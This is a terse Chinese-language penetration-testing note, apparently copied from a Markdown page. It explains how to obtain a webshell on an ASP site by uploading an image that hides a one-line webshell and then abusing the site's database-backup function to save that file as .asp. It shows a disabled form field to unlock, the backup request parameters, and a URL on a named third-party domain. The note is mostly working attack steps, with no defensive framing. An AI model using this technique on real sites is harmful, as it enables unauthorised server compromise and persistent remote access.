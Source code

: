 备份拿webshell

UploadFiles/201837182446512.jpg

 删除掉disabled

```
<input disabled="disabled" type="text" size="50" name="DBpath" value="../Databases/%#@$@#FDS@#$%%#.asp">
```

备份

![image-20210503000557631](../acess/image-20210503000557631.png)

DBpath=..%2FUploadFiles%2F201837182446512.jpg&bkfolder=Databackup&bkDBname=2018-3-7.asp

上传图片一句话 备份到asp

http://www.wuyou.com/UploadFiles/20183718421599.php

